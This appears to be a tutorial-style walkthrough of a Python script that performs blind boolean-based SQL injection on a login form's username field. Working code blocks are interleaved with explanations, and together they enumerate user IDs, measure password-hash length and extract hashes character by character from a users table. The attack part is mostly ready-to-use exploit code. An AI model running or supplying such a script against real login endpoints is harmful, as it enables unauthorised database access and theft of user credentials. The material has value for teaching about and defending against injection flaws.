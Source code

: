 This section imports the `requests` library to send HTTP requests and defines global variables. `total_queries` tracks how many queries are made, `charset` specifies the characters used in the password hash, `target` is the URL of the vulnerable login endpoint, and `needle` represents the success message displayed after a successful login.

```python
def injected_query(payload):
    global total_queries
    payload = "admin' and {}--".format(payload)
    r = requests.post(target, data={"username": payload, "password": "password"})
    total_queries += 1
    return needle.encode() not in r.content
```

This function sends a crafted SQL injection payload to the server, targeting the username field, and tracks the total queries executed. It evaluates the server's response to determine if the login succeeded by checking for the presence of the success message.

```python
def boolean_query(offset, user_id, character, operator=">"):
    payload = "(select hex(substr(password, {}, 1)) from users where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
    return injected_query(payload)
```

This function constructs a boolean-based SQL injection query to extract a single character of the password hash. It compares the hex value of the extracted character with the hex value of a known character to determine the correct character at the specified offset.

```python
def invalid_user(user_id):
    payload = "(select 1 from users where id = {})".format(user_id) 
    return injected_query(payload)
```

This function determines if a user exists by sending a SQL query that attempts to select a value from the database for the provided `user_id`. The result indicates whether the user ID is valid.

```python
def password_length(user_id):
    i = 0
    while True:
        payload = "(select length(password) from users where id = {} and length(password) <= {} limit 1)".format(user_id, i)
        if not injected_query(payload):
            return i  
        i += 1
```

This function calculates the length of a user's password hash by iteratively testing increasing lengths until the correct value is found. It constructs SQL queries to verify the length and returns the result when a match is detected.

```python
def extract_hash(charset, user_id, password_length):
    found = ""
    for i in range(0, password_length):
        for j in range(len(charset)):
            if boolean_query(i, user_id, charset[j]):
                found += charset[j]
                break
    return found
```
